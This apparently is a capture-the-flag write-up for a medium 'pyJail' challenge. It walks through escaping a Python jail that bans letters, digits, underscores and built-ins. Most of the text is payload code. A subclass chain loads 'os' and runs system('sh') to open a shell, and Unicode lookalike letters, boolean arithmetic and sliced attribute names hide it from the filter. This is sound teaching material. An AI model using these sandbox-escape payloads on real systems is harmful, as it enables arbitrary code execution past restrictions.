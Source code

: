 # [**pyJail**](#)

## Description:
* Break obm free from the prison by solving the challenge.

## Difficulty:
* Medium

## Objective:
The objective of this challenge is to escape the Python jail without using alphanumeric characters, underscores, or built-in functions.

## Deployment:
```sh
docker build -t py-jail .
docker run -p 4042:4042 py-jail
```

## Solution:
Our goal in this challenge is to bypass the restrictions and read the `flag.txt` file. The challenge restricts alphanumeric characters, underscores, and built-in functions. We will begin by bypassing the removal of the built-ins, which can be accomplished by exploiting Dunder Methods. There are several payloads that can circumvent the removal of built-ins; we will choose this one because it simplifies the process of bypassing alphabetic characters (more on this later):
```python
().__class__.__mro__[1].__subclasses__()[104].load_module('os').system('sh')
```
Before we proceed to bypass the restrictions on alphanumeric characters and underscores, we need to find the index of `<class '_frozen_importlib.BuiltinImporter'>` on the remote server, as this may differ from machine to machine. Given that we have the Dockerfile, we can test it on our local machine; in our case, it is located at index `107`. Our new payload is now:
```python
().__class__.__mro__[1].__subclasses__()[107].load_module('os').system('sh')
```
Now that we have a working payload, the next step is to bypass the restrictions on alphanumeric characters and underscores. We will start by replacing the alphabetic characters, which is straightforward. Python interprets Unicode alphabet characters as normal alphabet characters, and we can also bypass the underscore restriction using the same logic. This results in:
```python
()._＿𝘤𝘭𝘢𝘴𝘴_＿._＿𝘮𝘳𝘰_＿[1]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴_＿()[107].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦('os').𝘴𝘺𝘴𝘵𝘦𝘮('sh')
```
Next, we need to bypass two more elements: the numbers and the `os` and `sh` strings. We will start with the numbers. We can achieve this by concatenating boolean values such as `True + True`, which equals `1 + 1`, resulting in the number `2`. However, the challenge is that both True and False contain alphabetic characters. We can replace them with expressions such as `('' == '')` for `True`, and `('' != '')` for `False`.
```python
()._＿𝘤𝘭𝘢𝘴𝘴_＿._＿𝘮𝘳𝘰_＿[(''=='')+(''!='')]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦('os').𝘴𝘺𝘴𝘵𝘦𝘮('sh')
```
Finally, we need to bypass the `os` and `sh` strings. We can do this by exploiting the magic attributes inherited by tuples `()`, which can be listed using the `dir()` function:
```python
>>> dir(())
['__add__', '__class__', '__class_getitem__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'count', 'index']
```
Fortunately, we have the `__subclasshook__` attribute, which includes the characters `o`, `s`, and `h`. We can use `().__subclasshook__.__name__` to get the name of the attribute and then retrieve each character using subscript notation:
```python
().__subclasshook__.__name__[11] => 'o'
().__subclasshook__.__name__[2]  => 's'
().__subclasshook__.__name__[10] => 'h'
```
By replacing the numeric and alphabetic characters using the same method, we can construct the `os` string as follows:
```python
()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')] + ()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')]
```

## Wrapping everything up gives us the Final Payload:
```python
()._＿𝘤𝘭𝘢𝘴𝘴_＿._＿𝘮𝘳𝘰_＿[(''=='')+(''!='')]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')]).𝘴𝘺𝘴𝘵𝘦𝘮(()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')]+()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')])
```